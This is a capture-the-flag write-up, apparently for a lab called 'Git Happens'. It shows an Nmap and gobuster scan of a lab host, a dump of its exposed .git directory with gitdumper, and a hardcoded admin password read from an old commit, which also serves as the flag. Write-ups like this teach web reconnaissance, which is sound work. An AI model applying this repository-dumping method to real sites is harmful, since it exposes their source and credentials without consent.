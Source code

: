 # Git Happens

Boss wanted me to create a prototype, so here it is! We even used something called "version control" that made deploying this really easy!

Can you find the password to the application?

# Nmap discovery

Let's start by scanning the target with Nmap. We discover a web service running on standard port 80/tcp:

~~~
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-git: 
|   10.10.113.201:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Super Awesome Site!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

# Git repo

Nmap script also discovered a git repository, which we can confirm with gobuster:

~~~
kali@kali:/data/Git_Happens$ gobuster dir -u http://10.10.113.201 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.113.201
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/27 08:31:16 Starting gobuster
===============================================================
/.git/HEAD (Status: 200)
/css (Status: 301)
/index.html (Status: 200)
===============================================================
2020/08/27 08:32:02 Finished
===============================================================
~~~

# Dump the git repo

Let's use gitdumper from [GitTools](https://github.com/internetwache/GitTools) to download the content of the Git repo:

~~~
kali@kali:/data/src/GitTools/Dumper$ ./gitdumper.sh http://10.10.113.201/.git/ /data/Git_Happens/files/
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating /data/Git_Happens/files//.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[-] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[+] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/d0/b3578a628889f38c0affb1b75457146a4678e5
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/b8/6ab47bacf3550a5450b0eb324e36ce46ba73f1
[+] Downloaded: objects/77/aab78e2624ec9400f9ed3f43a6f0c942eeb82d
[+] Downloaded: objects/f1/4bcee8053e39eeb414053db4ec7b985f65edc8
[+] Downloaded: objects/9d/74a92581071ae7c4a470ff035e0de4598877e5
[+] Downloaded: objects/20/9515b2f7cbdfb731d275c4b089e41ba35c3bc8
[+] Downloaded: objects/5a/35c9b7c787c22f689d0364cf57b013a11561a2
[+] Downloaded: objects/08/906612dfe6821cebc21794eb85601fc4f54de9
[+] Downloaded: objects/4a/2aab268541cbcc434e0565b4f4f2deca29ee5f
[+] Downloaded: objects/7c/578d86a8713b67af2cb1b1d7c524c23cefe7aa
[+] Downloaded: objects/4e/7178fa5b68fec15e54f2b79ace6f9ce0169e01
[+] Downloaded: objects/2e/b93ac3534155069a8ef59cb25b9c1971d5d199
[+] Downloaded: objects/4c/f757268c6824041664d132a29908aa9c362a26
[+] Downloaded: objects/3a/39b02d3b9d12222bac4737ee67e31403d62f13
[+] Downloaded: objects/ae/f68b1e25df81a8c96ee4d57b20cc9f7a1ebee5
[+] Downloaded: objects/d6/df4000639981d032f628af2b4d03b8eff31213
[+] Downloaded: objects/56/820adbbd5ac0f66f61916122c94ea52937e9b2
[+] Downloaded: objects/d9/54a99b96ff11c37a558a5d93ce52d0f3702a7d
[+] Downloaded: objects/06/012255f074d7bc4acc6fadbcff004380b5f83b
[+] Downloaded: objects/bc/8054d9d95854d278359a432b6d97c27e24061d
[+] Downloaded: objects/dd/13038df878d41b774ce4fd4552091d46873c25
[+] Downloaded: objects/8c/94b154aef92380e29a3f16f1a889b56127cf13
[+] Downloaded: objects/e5/6eaa8e29b589976f33d76bc58a0c4dfb9315b1
[+] Downloaded: objects/48/926fdeb371c8ba174b1669d102e8c873afabf1
[+] Downloaded: objects/ce/b8d530ebcf79806dffc981905ec8c2e0d7a65b
[+] Downloaded: objects/87/bcbcb476578c6cc90ed39f9404292539fe1c9c
[+] Downloaded: objects/39/5e087334d613d5e423cdf8f7be27196a360459
[-] Downloaded: objects/40/04c23a71fd6ba9b03ec9cb7eed08471197d843
[-] Downloaded: objects/19/a865c5442a9d6a7c7cbea070f3cb6aa5106ef8
[-] Downloaded: objects/0f/679a88dbbaf89ff64cb351a151a5f29819a3c0
[+] Downloaded: objects/0e/abcfcd62467d64fb30b889e8de5886e028c3ed
[+] Downloaded: objects/ba/5e4a76e3f7b6c49850c41716f8f1091fbdc84e
[+] Downloaded: objects/2f/423697bf81fe5956684f66fb6fc6596a1903cc
[+] Downloaded: objects/e3/8d9df9b13e6499b749e36e064ec30f2fa45657
[+] Downloaded: objects/0e/0de07611ada4690fc0ea5b5c04721ba6f3fd0d
[+] Downloaded: objects/66/64f4e548df7591da3728d7662b6376debfce8d
~~~

# Git logs

Now, let's check the logs. We can see several commits.

~~~
kali@kali:/data/Git_Happens/files$ git log 
commit d0b3578a628889f38c0affb1b75457146a4678e5 (HEAD -> master, tag: v1.0)
Author: Adam Bertrand <hydragyrum@gmail.com>
Date:   Thu Jul 23 22:22:16 2020 +0000

    Update .gitlab-ci.yml

commit 77aab78e2624ec9400f9ed3f43a6f0c942eeb82d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Fri Jul 24 00:21:25 2020 +0200

    add gitlab-ci config to build docker file.

commit 2eb93ac3534155069a8ef59cb25b9c1971d5d199
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Fri Jul 24 00:08:38 2020 +0200

    setup dockerfile and setup defaults.

commit d6df4000639981d032f628af2b4d03b8eff31213
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:42:30 2020 +0200

    Make sure the css is standard-ish!

commit d954a99b96ff11c37a558a5d93ce52d0f3702a7d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:41:12 2020 +0200

    re-obfuscating the code to be really secure!

commit bc8054d9d95854d278359a432b6d97c27e24061d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:37:32 2020 +0200

    Security says obfuscation isn't enough.
    
    They want me to use something called 'SHA-512'

commit e56eaa8e29b589976f33d76bc58a0c4dfb9315b1
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:25:52 2020 +0200

    Obfuscated the source code.
    
    Hopefully security will be happy!

commit 395e087334d613d5e423cdf8f7be27196a360459
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:17:43 2020 +0200

    Made the login page, boss!

commit 2f423697bf81fe5956684f66fb6fc6596a1903cc
Author: Adam Bertrand <hydragyrum@gmail.com>
Date:   Mon Jul 20 20:46:28 2020 +0000

    Initial commit
(END)
~~~

# Show files

Based on these commits, we can use `git show` to highlight files modifications from the commits (we'll start with the reverse order for the commits). For the initial commit with ID `2f423697bf81fe5956684f66fb6fc6596a1903cc`, there is nothing interesting, but the second commit with ID `395e087334d613d5e423cdf8f7be27196a360459` reveals the source code of the page, where credentials appear in the clear:

~~~
kali@kali:/data/Git_Happens/files$ git show 395e087334d613d5e423cdf8f7be27196a360459
commit 395e087334d613d5e423cdf8f7be27196a360459
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:17:43 2020 +0200

[REDACTED]

+    <script>
+      function login() {
+        let form = document.getElementById("login-form");
+        console.log(form.elements);
+        let username = form.elements["username"].value;
+        let password = form.elements["password"].value;
+        if (
+          username === "admin" &&
+          password === "Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!"
+        ) {
+          document.cookie = "login=1";
+          window.location.href = "/dashboard.html";
+        } else {
+          document.getElementById("error").innerHTML =
+            "INVALID USERNAME OR PASSWORD!";
+        }
+      }
+    </script>
+  </body>
+</html>
(END)
~~~

# Authenticate

Now that we have the credentials (`admin:Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!`), we can use them against the authentication page (http://10.10.113.201). It redirects to http://10.10.113.201/dashboard.html with a message: `Awesome! Use the password you input as the flag!`

# Flag

Flag: `Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!`
